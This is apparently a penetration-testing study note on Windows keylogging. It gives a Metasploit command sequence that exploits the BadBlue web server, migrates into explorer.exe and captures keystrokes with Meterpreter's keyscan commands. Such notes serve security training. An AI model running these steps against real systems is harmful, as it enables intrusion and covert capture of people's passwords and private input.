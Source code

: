 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Windows Keylogging

- Process of recording or capturing the keystrokes entered on a target system
- The technique is not limited to post exploitation
- Meterpreter on a Windows system provides us with the ability to capture the keystrokes entered in a target system and download them back

## Demonstration

```bash
> use exploit/windows/http/badblue_passthru
> set target <target>
> run
m> sysinfo
# now keylogging
# better with explorer.exe process
m> pgrep explorer.exe
m> migrate <id>
# start keylogger
m> keyscan_start
# see data
m> keyscan_dump
m> keyscan_stop
```
